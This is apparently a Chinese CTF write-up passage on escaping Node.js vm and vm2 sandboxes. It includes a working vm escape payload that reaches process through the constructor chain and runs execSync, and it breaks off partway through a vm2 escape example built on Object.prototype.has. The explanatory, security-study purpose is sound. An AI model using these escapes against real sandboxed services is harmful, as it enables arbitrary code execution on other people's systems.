 ```nginx
```

>   **还可以通过`vm`沙箱`Proxy`代理绕过`Object.create(null)`**

>   下面的代码中，`value`是`{}`对象传入的，而`{}`对象是外部作用域下，经过原型链可以获取`proces`对象来进行利用

```nginx
const vm = require('vm');
const code3 = `new Proxy({}, {
    set: function(me, key, value) {
        (value.constructor.constructor('return process'))().mainModule.require('child_process').execSync('calc').toString()
    }
})`;

data = vm.runInContext(code3, vm.createContext(Object.create(null)));
data['some_key'] = {};

```



## 关于vm2模块

>   **vm2基于vm开发**，使用官方的vm库构建沙箱环境。然后使用JavaScript的Proxy技术来防止沙箱脚本逃逸

`vm2`**的代码包中主要有四个文件**

-   `cli.js`： 
    -   实现`vm2`的命令行调用
-   `contextify.js` 
    -   封装了三个对象， `Contextify `和 `Decontextify `，并且针对 `global `的`Buffer`类进行了代理
-   `main.js`
    -    `vm2`执行的入口，导出了 `NodeVM`, `VM `这两个沙箱环境，还有一个 `VMScript `实际上是封装了` vm.Script`
-   `sadbox.js`
    -   针对 `global` 的一些函数和变量进行了`hook`，比如 `setTimeout`，`setInterval `等

>   vm2相比vm做了很大的改进，其中之一就是利用了es6新增的 proxy 特性，
>
>   从而拦截对诸如 **constructor** 和 **proto** 这些属性的访问

##### vm2运行过程

```js
const {VM, VMScript} = require("vm2");
console.log(new VM().run(new VMScript("let a = 2;a")));
```

![1586953-20221121002007885-1481652350]([HZNUCTF 2023 final]eznode.assets/1586953-20221121002007885-1481652350.png)



##### vm2沙箱逃逸原理

>   看一个案例

```js
"use strict";

var process;
 
// 这串代码定义了一个名为has 的全局函数，这个函数是在 Object 的原型上定义的
//		它的两个参数，t 和 k 分别表示：目标对象和要检查的键。
Object.prototype.has = function (t, k) {
    // 在 has 函数内部，使用 t.constructor("return process")() 的方式来获取全局对象process，
	// constructor 方法是 t 的构造函数，此时 t 是 Buffer.from，
	// 所以获取到的 constructor 函数即为 Buffer 构造函数，
	// 由于在 Node.js 中，Buffer 构造函数是原生模块，
	// 因此使用 constructor 方法执行 "return process" 字符串就能获取到全局 process 对象了。
    process = t.constructor("return process")();
```